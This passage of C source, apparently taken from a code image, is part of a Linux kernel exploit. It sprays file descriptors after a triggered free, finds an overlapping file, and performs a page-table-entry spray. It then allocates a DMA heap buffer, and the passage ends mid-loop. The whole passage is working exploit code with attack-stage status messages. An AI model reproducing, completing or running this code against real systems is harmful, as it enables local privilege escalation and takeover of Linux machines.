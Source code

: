 ```c

    printf("[*] triggered free\n");

    int fds2[0x1000];

    for(int i = 0; i < 0x1000; i++)
        fds2[i] = open("/bin/busybox", O_RDONLY);

    unsigned long x = 0x4141414141414141;
    int overlap_idx = -1;

    for(int i = 0; i < 0x1000; i++) {
        if(write(fds[i], &x, 8) < 0) {
            perror("write");
            overlap_idx = i;
            break;
        }
    }

    if(overlap_idx == -1) {
        printf("[-] overlapping file not found, exploit fail\n");
        exit(-1);
    }

    printf("[*] overlap idx: %d\n", overlap_idx);
    printf("[*] overlapping done\n");

    for(int i = 0; i < 0x1000; i++)
        close(fds2[i]);

    for(int i = 0; i < 0x1000; i++) {
        if(i != overlap_idx)
            close(fds[i]);
    }

    printf("[*] doing pte spray\n");

    for (int i = 0; i < 0x1000; i++)
        for (int j = 0; j < 8; j++)
            *(char*)(page_spray[i] + j*0x1000) = 'A' + j;

    int dmafd = -1, dma_buf_fd = -1;
    struct dma_heap_allocation_data data;

    data.len = 0x1000;
    data.fd_flags = O_RDWR;
    data.heap_flags = 0;
    data.fd = 0;

    dmafd = open("/dev/dma_heap/system", O_RDWR);
    if (dmafd < 0) {
        perror("open");
        exit(-1);
    }

    if (ioctl(dmafd, DMA_HEAP_IOCTL_ALLOC, &data) < 0) {
        perror("ioctl");
        exit(-1);
    }

    printf("[*] dma_buf_fd: %d\n", dma_buf_fd = data.fd);

    for (int i = 0x1000; i < 0x2000; i++)
```